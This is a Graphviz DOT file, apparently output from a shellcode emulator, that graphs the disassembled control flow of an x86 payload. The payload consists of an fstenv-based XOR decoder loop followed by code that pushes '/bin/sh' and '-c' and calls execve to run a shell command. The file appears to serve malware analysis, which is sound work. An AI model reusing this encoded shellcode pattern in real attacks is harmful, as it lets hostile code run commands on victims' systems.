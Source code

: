 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x6e7b40" [shape=box, label = "0x00417000 D9E9                            fldln2 \l0x00417002 BA33D47E78                      mov edx,0x787ed433\l0x00417007 D97424F4                        fstenv [esp-0xc]\l0x0041700b 5D                              pop ebp\l0x0041700c 2BC9                            sub ecx,ecx\l0x0041700e B10D                            mov cl,0xd\l"]
	 "0x6e5a90" [shape=box, label = "0x00417010 31551A                          xor [ebp+0x1a],edx\l"]
	 "0x6e55c0" [shape=box, label = "0x00417013 83EDFC                          sub ebp,0xfffffffc\l0x00417016 035516                          add edx,[ebp+0x16]\l"]
	 "0x6e4ec0" [shape=box, label = "0x00417019 E2F5                            loop 0xfffffff7\l"]
	 "0x6e19f0" [shape=box, label = "0x0041701b 6A0B                            push byte 0xb\l0x0041701d 58                              pop eax\l0x0041701e 99                              cwd \l0x0041701f 52                              push edx\l0x00417020 66682D63                        push word 0x632d\l0x00417024 89E7                            mov edi,esp\l0x00417026 682F736800                      push dword 0x68732f\l0x0041702b 682F62696E                      push dword 0x6e69622f\l0x00417030 89E3                            mov ebx,esp\l0x00417032 52                              push edx\l0x00417033 E810000000                      call 0x15\l0x00417048 57                              push edi\l0x00417049 53                              push ebx\l0x0041704a 89E1                            mov ecx,esp\l"]
	 "0x6e4630" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041704c execve\l"]
	 "0x6e7b40" -> "0x6e5a90" [style = bold ]
	 "0x6e5a90" -> "0x6e55c0" [style = bold, color=orange ]
	 "0x6e55c0" -> "0x6e4ec0" [style = bold, color=orange ]
	 "0x6e4ec0" -> "0x6e5a90" [style = bold, color=orange ]
	 "0x6e4ec0" -> "0x6e19f0" [style = bold ]
	 "0x6e19f0" -> "0x6e4630" [style = bold ]
}